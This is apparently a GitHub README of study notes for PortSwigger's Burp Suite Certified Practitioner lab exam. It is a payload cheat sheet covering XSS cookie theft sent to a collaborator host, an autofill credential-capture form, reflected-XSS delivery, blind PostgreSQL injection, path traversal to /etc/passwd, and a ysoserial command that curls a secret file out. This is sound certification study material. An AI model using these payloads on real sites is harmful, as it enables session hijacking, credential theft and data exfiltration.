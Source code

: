 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Exam Info](#exam-info)
* [Useful Burp extensions](#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](#cross-site-scripting-section)
   * [Bypass restrictions method 1](#bypass-restrictions-method-1)
   * [Capture credentials from auto-filled forms](#capture-credentials-from-auto-filled-forms)
   * [DOM XSS](#dom-xss)
* [Exploit Server Section](#exploit-server-section)
  * [Send exploit to victim (Reflected XSS in search bar)](#send-exploit-to-victim-reflected-xss-in-search-bar)
* [SQL Injection Section](#sql-injection-section)
  * [PostgreSQL](#postgresql)
    * [Time Based](#time-based)
  * [MySQL](#mysql)
  * [Oracle](#oracle)
  * [SQLite](#sqlite)
* [Directory traversal Section](#directory-traversal-section)
* [Insecure Deserialization Section](#insecure-deserialization-section)
  * [Java](#java)
  * [PHP](#php)
* [HTTP request smuggling Section](#http-request-smuggling-section)
* [Information disclosure Section](#information-disclosure-section)

## Exam Info
There is always an administrator account with the username "administrator", plus a lower-privileged account usually called "carlos". If you find a username enumeration vulnerability, you may be able to break into a low-privileged account using the following [username](https://portswigger.net/web-security/authentication/auth-lab-usernames) list and [password](https://portswigger.net/web-security/authentication/auth-lab-passwords) list.

Each application has up to one active user, who will be logged in either as a user or an administrator. You can assume that they will visit the homepage of the site every 15 seconds, and click any links in any emails they receive from the application. You can use exploit server's "send to victim" functionality to target them with reflected vulnerabilities.

<b>If you find an SSRF vulnerability, you can use it to read files by accessing an internal-only service, running on localhost on port 6566.</b>

## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [ysoserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
When the exam involve XSS for the user part start search about javascript file in the source code or use the [DOM Invader](#dom-xss) into search forms.<br>
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection) <br>
Also here - [XSS Payloads](http://www.xss-payloads.com/payloads-list.html?a#category=all)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

### Capture credentials from auto-filled forms
Sometimes we use password managers that fill in forms automatically and with this technique we can grab those credentials just making a small html form.
```javascript
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://zy1cmwt0q8o3vtlolrhvx9nfn6t7hw.burpcollaborator.net',{
  method:'POST',
  mode: 'no-cors',
  body:username.value+':'+this.value
});">
```

### DOM XSS
An awesome google chrome(from burp suite) extension is <b>DOM Invader</b> which you can use it for DOM XSS testing

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

### Different XSS Payloads
```javascript
${alert(1)}
<svg><animatetransform%20§§=1>
<><img src=1 onerror=alert(1)>
\"-alert(1)}//

//angular
{{$on.constructor('alert(1)')()}}
```

## SQL Injection Section

[SQL Injection cheat sheet PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
<br>
### Labs
[SQL injection with filter bypass via XML encoding](https://github.com/dhmosfunk/BSCP/tree/main/recommended_labs#lab-sql-injection-with-filter-bypass-via-xml-encoding)
<br>
[Blind SQL injection with out-of-band data exfiltration](https://github.com/dhmosfunk/BSCP/tree/main/recommended_labs#lab-blind-sql-injection-with-out-of-band-data-exfiltration)


### PostgreSQL
#### Time Based
Identify time based
```sql
select 1 from pg_sleep(5)
;(select 1 from pg_sleep(5))
||(select 1 from pg_sleep(5))
```

Database Dump Time Based<br>

```sql
select case when substring(datname,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from pg_database limit 1
```

Table Dump Time Based <br>

```sql
select case when substring(table_name,1,1)='a' then pg_sleep(5) else pg_sleep(0) end from information_schema.tables limit 1
```

Columns Dump Time Based <br>
```sql
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name limit 1
select case when substring(column,1,1)='1' then pg_sleep(5) else pg_sleep(0) end from column_name where column_name='value' limit 1
```


### MySQL

### Oracle

### SQLite

## Directory Traversal Section
```bash
../../../etc/passwd # Simple case
..%252f..%252f..%252fetc/passwd # Double URL Encoding
....//....//....//etc/passwd # Stripped non-recursively
../../../etc/passwd%00.png # Null byte bypass 
images/../../../etc/passwd # Validation of start of path
```


## Insecure Deserialization Section


### Java
If you have `Java Deserialization Scanner` burp extension you can do an active scan(pro version only) and maybe you will find something ;) at least exploit it manually with the below tool.
#### ysoseriar.jar
payloads about `ysoseriar` <br>
<b>Dont forget</b> the below payloads requires url encoding after payload are generated
```bash
java -jar ysoseriar.jar CommonsCollections7 'curl -d @/home/carlos/secret k3of2usea0s8kzkwsqnme9bj2a83ws.burpcollaborator.net' | gzip|base64 

java -jar ysoseriar.jar <PAYLOAD> 'COMMAND' | encoding
```
For more information about payloads and stuff you can find in the ysoserial [official repository](https://github.com/frohoff/ysoserial)

### PHP
[phpggc](https://github.com/ambionics/phpggc)


### HTTP request smuggling Section
For manual exploitation CL.TE TE.CL we can use the [Simple HTTP Smuggler Generator CL.TE TE.CL](https://github.com/dhmosfunk/simple-http-smuggler-generator) 


### Information disclosure Section
Always go for directory brute force and for .files(hidden files) e.g. <b>.git</b>
